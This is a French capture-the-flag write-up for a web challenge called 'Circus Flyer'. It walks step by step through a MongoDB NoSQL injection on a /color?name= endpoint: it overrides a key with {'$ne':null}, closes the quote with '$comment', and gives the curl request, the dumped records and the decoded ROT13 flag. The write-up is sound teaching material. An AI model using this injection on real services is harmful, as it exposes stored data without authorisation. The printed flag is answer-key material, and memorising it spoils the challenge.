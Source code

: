 # Circus Flyer

## Write-up

En visitant le site, on remaruqe des boutons permettant de changer les couleurs de la page.

En regargant le code source, on remaque que l'on fait une requête au serveur pour récupérer les couleurs, on peut voir qu'un objet est retournée.

```json
{
    "_id": "66aaa2488bebc41cd65f143b",
    "name": "circus-red",
    "hex": "#FF4500"
}
```

La clé `_id` fait penser à mongodb, on peut donc essayer de faire une injection.

On voit que la requète est sous le format `/color?name=...` et que le code en javascript s'attend à recevoir un tableau. 

On pourrait donc imaginer un filtre et récupérer toute les couleurs:

```sh
# /color?name={"$ne":null}
/color?name=%7B"ne":null%7D
```

Sauf que cela nous donne une erreur. En analysant les données que l'on envoi, on remarque que l'on envoie une string, on imagine donc que le serveur rajoute des guillemets autour de notre string.

Le serveur construit donc un filtre ayant le format suivant:

```
{ "name": "$notre_filtre" }
```

Commet on construit un objet, il est possible d'écraser une clé en envoyant un objet avec la même clé.

Nous aurions donc ceci:

```sh
# /color?name=","name":"{"$ne":null}"
# /color?name=","name":%7B"$ne":null%7D
{  "name": "", "name": { "$ne": null }" }
```

Soucis, il nous reste un guillemet à fermer. On peut dire que c'est un commentaire;

```sh 
# /color?name=","name":"{"$ne":null}","$comment":""
# /color?name=","name":%7B"$ne":null%7D,"$comment":"
{ "name": "", "name": { "$ne": null }, "$comment": "" }
```

On peut donc récupérer toutes les couleurs en envoyant cette requête:

```sh
$ curl 'http://localhost:3000/color?name=","name":%7B"$ne":null%7D,"$comment":"' | jq
```

résultat:
```json
[
  {
    "_id": "66aaa2488bebc41cd65f143b",
    "name": "circus-red",
    "hex": "#FF4500"
  },
  {
    "_id": "66aaa2488bebc41cd65f143c",
    "name": "clown-nose-red",
    "hex": "#DC143C"
  },
  {
    "_id": "66aaa2488bebc41cd65f143d",
    "name": "tent-yellow",
    "hex": "#FFD700"
  },
  {
    "_id": "66aaa2488bebc41cd65f143e",
    "name": "ringmaster-blue",
    "hex": "#1E90FF"
  },
  {
    "_id": "66aaa2488bebc41cd65f143f",
    "name": "acrobatic-purple",
    "hex": "#8A2BE2"
  },
  {
    "_id": "66aaa2488bebc41cd65f1440",
    "name": "performer-pink",
    "hex": "#FF69B4"
  },
  {
    "_id": "66aaa2488bebc41cd65f1441",
    "name": "elephant-gray",
    "hex": "#A9A9A9"
  },
  {
    "_id": "66aaa2488bebc41cd65f1442",
    "name": "lion-mane-orange",
    "hex": "#FFA500"
  },
  {
    "_id": "66aaa2488bebc41cd65f1443",
    "name": "juggler-green",
    "hex": "#32CD32"
  },
  {
    "_id": "66aaa2488bebc41cd65f1444",
    "name": "tightrope-turquoise",
    "hex": "#40E0D0"
  },
  {
    "_id": "66aaa2488bebc41cd65f1445",
    "name": "LgpPkEpSo3",
    "hex": "synt-zbatbvffbzntvp"
  }
]
```

On remarque `synt-...` dans un hex, ce qui est un rot-13. On peut donc le décoder et retrouver le flag.

## Flag

`flag-mongoissomagic`

